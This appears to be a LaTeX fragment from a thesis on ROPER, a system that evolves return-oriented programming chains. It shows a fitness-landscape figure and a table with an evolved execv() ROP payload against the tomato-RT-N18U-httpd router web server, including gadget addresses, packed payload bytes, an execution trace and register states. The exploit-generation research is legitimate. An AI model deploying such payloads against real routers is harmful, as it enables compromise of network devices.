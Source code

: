 \documentclass[12pt,glossary]{dalthesis}
\begin{document}
Even with so simple a task, the fitness landscape traversed by \gls{roper} displays
a surprising degree of ruggedness, as we can see in figure \ref{fig:org34f04c4}. 

\begin{figure}[htbp]
\centering
\includegraphics[width=.9\linewidth]{../images/plots/wiwzuh_syscall_gaussian_3.pdf}
\caption{\label{fig:org34f04c4}
Gaussian approximation of the fitness landscape across the population and over evolutionary time, for the \emph{Wiwzuh} population, evolving \texttt{execv("/tmp/flashXXXXXX", ["/tmp/flashXXXXXX"], NULL)} syscall \gls{rop} chains in tomato-RT-N18U-httpd, yielding a specimen with perfect (0.0) fitness.}
\end{figure}


\begin{table}
\label{fig:wiwzuh}
\begin{lstlisting}
(*\textbf{Clumps:}*)
[*] 0000b4ac   00000000   00000b17   0000000b   0000000b   00000000  
[*] 0000d1a0   0001f62f   0001f62f   0001f62f  
[*] 00016654   706d742f  
[*] 0001706c   0001f62f   0000fff8   0001f62f  

(*\textbf{Packed:}*)
ac b4 00 00  00 00 00 00  17 0b 00 00  0b 00 00 00  
0b 00 00 00  00 00 00 00  a0 d1 00 00  2f f6 01 00  
2f f6 01 00  2f f6 01 00  54 66 01 00  2f 74 6d 70  
6c 70 01 00  2f f6 01 00  f8 ff 00 00  2f f6 01 00  

(*\textbf{Execution Trace:}*)
0000b4ac        pop {r4, r5, r6, r7, r8, pc}

0000d1a0        cmp r0, #0
0000d1a4        popeq {r3, r4, r5, pc}

00016654        cmp r0, #0
00016658        ldr r3, [pc, #4]
0001665c        moveq r0, r3
00016660        pop {r3, pc}

0001706c        ldm sp, {r0, r1}
00017070        add sp, sp, #0x10
00017074        pop {r4, r5, r6, pc}

(*\textbf{Registers:}*)
R0:  1f62f->706d742f  R8:  0->68732e00 
R1:  fff8->1f62f      R9:  0->68732e00
R2:  0->68732e00      R10: 0->68732e00
R3:  706d742f         R11: 0->68732e00
R4:  0->68732e00      FP:  0->68732e00
R5:  0->68732e00      SP:  2b053->0   
R6:  0->68732e00      LR:  0->68732e00
R7:  b->746e692e      PC:  0->68732e00
\end{lstlisting}
\caption{A perfected \texttt{execv()} payload on \texttt{tomato-RT-N18U-httpd}, from the \emph{Wiwzuh} population, generation 17.}
\end{table}
\end{document}
